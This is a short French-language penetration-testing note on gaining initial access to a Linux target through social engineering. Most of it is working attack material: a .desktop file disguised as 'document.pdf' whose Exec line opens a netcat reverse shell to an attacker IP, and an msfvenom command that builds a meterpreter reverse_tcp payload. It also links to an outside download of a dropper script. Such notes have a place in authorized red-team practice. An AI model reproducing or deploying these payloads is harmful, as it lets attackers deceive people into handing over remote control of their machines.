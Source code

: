 # Social Engineering Linux Target

Fait partie la phase de l'access initial

Le but est d'envoyer un fichier `.desktop` a notre cible et obtenir un reverse shell.

```sh
[Desktop Entry]
Type=Application
Name=document.pdf
Exec=/bin/nc -e /bin/sh 192.168.45.128 4444
Icon=/home/kali/Pictures/test.png
```

Download `LinDrop.py` at [LinDrop](https://www.obscurechannel.com/x42/code.html)

```sh
msfvenom --platform linux -p linux/x86/meterpreter/reverse_tcp LPORT=9001 LHOST=192.168.45.128 -f ef > payload
```
